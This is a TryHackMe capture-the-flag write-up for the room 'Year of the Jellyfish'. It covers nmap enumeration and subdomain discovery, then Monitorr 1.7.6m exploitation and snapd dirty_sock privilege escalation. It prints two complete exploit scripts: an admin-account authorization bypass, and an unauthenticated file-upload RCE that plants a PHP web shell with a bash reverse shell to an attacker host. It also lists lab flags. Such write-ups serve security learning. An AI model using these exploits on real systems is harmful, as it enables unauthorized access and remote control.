


# Writeup of Year of the Jellyfish

This is my writeup for [Year of the Jellyfish](https://tryhackme.com/room/yearofthejellyfish) from [TryHackMe](https://tryhackme.com).

# Index
1. [Information Gathering](#information-gathering)
2. [Exploiiting Monitorr](#exploiting-monitorr)
3. [Exploiting Dirty Sock](#exploiting-dirty-sock)
4. [Conclusion](#conclusion)

# Information Gathering
Let's begin with an nmap scan.
```
# Nmap 7.91 scan initiated Wed May 12 01:41:18 2021 as: nmap -sV -p- -Pn -oN n
map/intial 54.171.161.67                                                    
Nmap scan report for ec2-52-215-190-139.eu-west-1.compute.amazonaws.com (54.171.161.67)                                                                    
Host is up (0.22s latency).                                                   
Not shown: 65527 filtered ports                                               
PORT      STATE SERVICE  VERSION                                              
21/tcp    open  ftp      vsftpd 3.0.3                                         
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protoc
ol 2.0)                                                                       
25/tcp    open  smtp?                                                         
80/tcp    open  http     Apache httpd 2.4.29                                  
443/tcp   open  ssl/http Apache httpd 2.4.29 ((Ubuntu))                       
8000/tcp  open  http-alt                                                      
8096/tcp  open  unknown                                                       
22222/tcp open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protoc
ol 2.0)
```

Seems like there are services running on non standard ports. Upon visitng the webpage we get an error. 


This just indicates that our system can't resolve the domain `robyns-petsthop.thm`. The fix is is simple, we add the `ip` and `domain` in our `/etc/hosts` file.
```shell 
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

54.171.161.67 robyns-petshop.thm
```

Accept the risk and continue.


Since there's not much here, we can take a look at port `8000`.

Trying arbitrary `id` just routes back to the same page.


Let's take a look at port `8096` next.

Testing it for the default `admin:admin` login, as well as `xss` and `sql` injection points didn't yield results. The only alternative left is to enumerate `subdomains`.

We can take a look at the certificate as it usually contains useful `DNS` info.

Bingo! We found some useful `subdomains`. To visit them we'll have to add them in `/etc/hosts` file as before.
```shell
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

54.171.161.67 robyns-petshop.thm monitorr.robyns-petshop.thm beta.robyns-petshop.thm dev.robyns-petshop.thm
```

Note the version of the service `Monitorr | 1.7.6m`. This can be useful in searching for any exploits. Clicking `PetShop and Jellyfin` results in an error as both try accessing  `localhost`.  

There is also a settings page which contains some useful info on the presence of a database `datausers.db`. Testing for default login credentials as well as injection yeilds no results.


Visitng `dev.robyns-petshop.thm` and `beta.robyns-petshop.thm` seem to be the same pages as before.



# Exploiting Monitorr
Having exhausted all possibilities, we can now search for an exploit for `Monitorr | 1.7.6m`.
```shell
$ searchsploit monitorr 1.7.6m
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                                                                      | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                                                   | php/webapps/48980.py
------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

$ cp /usr/share/exploitdb/exploits/php/webapps/48981.py authbypass.py
 && cp /usr/share/exploitdb/exploits/php/webapps/48980.py rce.py
```
- authbypass.py
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Authorization Bypass
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

# Monitorr 1.7.6m allows creation of administrative accounts by abusing the installation URL.

import requests
import os
import sys

if len (sys.argv) != 5:
	print ("specify params in format: python " + sys.argv[0] + " target_url user_login user_email user_password")
else:
    url = sys.argv[1] + "/assets/config/_installation/_register.php?action=register"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Connection": "close", "Referer": url, "Upgrade-Insecure-Requests": "1"}
    data = {"user_name": sys.argv[2], "user_email": sys.argv[3], "user_password_new": sys.argv[4], "user_password_repeat": sys.argv[4], "register": "Register"}
    requests.post(url, headers=headers, data=data)
    print ("Done.")
```
- rce.py
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```
As we don't have any login credentials, let's use `rce.py` which exploits a `file upload` vulnerability and creates a `reverse shell`. Setup a listener on a common port to bypass firewall restrictions.

To bypass SSL certificate add `verify=false` as follows:


Still no reverse shell. Let's look at `/assets/php/upload.php`.

It expects an image to be uploaded and stores it in `/assets/data/usrimg`. 

Modify the code to include the extension `.png` as follows:

Upon running the code again, we still don't manage to upload the file. Inspecting the page we can see that `isHuman=1`. This might be stopping us from uploading the file as the script doesn't set any cookies.

Modifying the code again.


We have successfully upload the file but it won't execute as it has extension `.png`. We can try common php extensions such `.php`, `.php7`, and `.phtml`. After trying all three `.phtml` works and we get the `reverse shell` connection.


As the server contains `python3`, upgrade to a stable shell and run `linpeas`.


`Flag1: THM{MjBkOTMyZDgzNGZmOGI0Y2I5NTljNGNl}`

# Exploiting Dirty Sock
I was stuck on this for a long time, but after extensive searching I found that we can exploit the `snapd` service.

Checking the version of `snapd` service reveals the following:

This version is vulnerable to `dirty_sock`.
```shell
$ searchsploit snapd 2.35           
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege | linux/local/46362.py
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ cp /usr/share/exploitdb/exploits/linux/local/46361.py dirtysock.py

```
Upload the file to the server and run the exploit.


`Root Flag: THM{YjMyZTkwYzZhM2U5MGEzZDU2MDc1NTMx}`

# Conclusion
This box was quite challenging and fun! I learnt a lot and hope this was helpful to you as well.